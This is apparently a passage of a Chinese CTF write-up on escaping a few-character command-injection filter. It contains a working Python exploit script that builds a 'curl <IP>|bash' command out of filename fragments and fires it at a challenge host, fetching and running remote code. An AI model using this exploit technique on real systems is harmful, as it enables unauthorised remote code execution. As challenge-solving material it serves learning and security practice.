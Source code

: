 ```php
	]
```

`*>v`实际上上可以转换成`$(dir *)>v`，所以写入`v`的文件如下：`ls -th >g`

然后文件名加一个`rev`，之后`*v>x`实际上就是`$(dir *v)>x`，**dir *v返回的就是结尾为v的文件**，写入`x`文件

那么rev和v都是以v结尾的文件。

exp:

```python
import requests
import urllib
from time import sleep

payload = [
	
	'>dir',
	'>sl',
	'>g\>',
	'>ht-',
	'*>v',
	'>rev',
	'*v>u',

	'>sh',
	'>ba\\',
	'>\|\\',
	'>2\\',
	'>16\\',
	'>0.\\',
	'>25\\',
	'>5.\\',
	'>1\\',
	'>6.\\',
	'>10\\',
	'>\ \\',
	'>rl\\',
	'>cu\\',

	'sh u',
	'sh g'
]

r = requests.get("http://117.50.3.97:8002?reset=1")
for i in payload:
	r = requests.get("http://117.50.3.97:8002?cmd="+urllib.quote(i))
	print i
	sleep(0.2)
```

关于为啥这里的shell是五个字符却符合要求，问python...

